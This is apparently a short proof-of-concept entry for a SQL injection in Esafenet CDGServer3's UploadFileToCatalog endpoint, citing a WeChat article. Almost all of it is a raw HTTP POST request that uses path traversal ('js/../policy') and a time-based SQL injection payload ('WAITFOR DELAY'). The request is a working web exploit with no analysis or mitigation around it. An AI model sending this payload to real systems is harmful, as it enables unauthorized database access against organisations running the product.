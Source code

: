 # esafenet_uploadfiletocatalog_sqli

from: https://mp.weixin.qq.com/s/H02unQ1DQKeEPzA_3YH23Q
2024.2.19 @2

```
POST /CDGServer3/js/../policy/UploadFileToCatalog?fromurl=../user/dataSearch.jsp HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
 
id=1';WAITFOR DELAY '0:0:3'--
```
